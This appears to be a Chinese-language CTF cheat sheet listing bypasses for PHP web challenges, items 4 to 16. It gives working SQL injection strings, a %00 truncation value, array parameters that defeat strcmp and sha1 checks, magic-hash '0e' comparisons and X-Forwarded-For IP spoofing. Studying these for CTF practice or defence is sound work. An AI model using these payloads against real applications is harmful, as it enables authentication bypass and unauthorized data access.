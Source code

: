 ## 4、SQL注入_WITH ROLLUP绕过
`admin' GROUP BY password WITH ROLLUP LIMIT 1 OFFSET 1-- -`

## 5、ereg正则%00截断
15、19同理，ereg()只能识别到%00前的字符串，而strpos不会被%00截断所以可以绕过。
`else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999)` 可以使用科学计数法绕过，即9e9
`password=9e9%00*-*`

## 6、strcmp比较字符串
php弱类型，使用数组绕过

## 7、sha()函数比较绕过
条件`$_GET['name'] != $_GET['password']，sha1($_GET['name']) === sha1($_GET['password'])`，使用数组绕过即可
`?name[]=1&&password[]=2`

## 8、SESSION验证绕过
条件`$_GET['password'] == $_SESSION['password']`，因为session里没有password，直接在url里将password置空就可以了

## 9、密码md5比较绕过
`?user=' union select 'e10adc3949ba59abbe56e057f20f883e' #&pass=123456`

## 10、urldecode二次编码绕过
题目将参数url解码后做了一次校验，url编码两次就可以绕过了。

## 11、sql闭合绕过
构造exp闭合绕过 `admin')#`

## 12、X-Forwarded-For绕过指定IP地址
http头加入`X-Forwarded-For：1.1.1.1`

## 13、md5加密相等绕过
`QNKCDZO的`md5值是0e开头，php两个==会先将字符串转化为数字，php的==，当一个其他类型与整形作比较时，会先将其他类型转化为整形，0e开头的字符串会转化为0，所以只要使用其他md5是0e开头的字符串也可

## 14、intval函数四舍五入
intval()会四舍五入，1024.1绕过

## 15、strpos数组绕过NULL与ereg正则%00截断
与6原理相同

## 16、SQL注入or绕过

```
$query='SELECT * FROM users WHERE name=\''admin\'\' AND pass=\''or 1 #'\';';
```

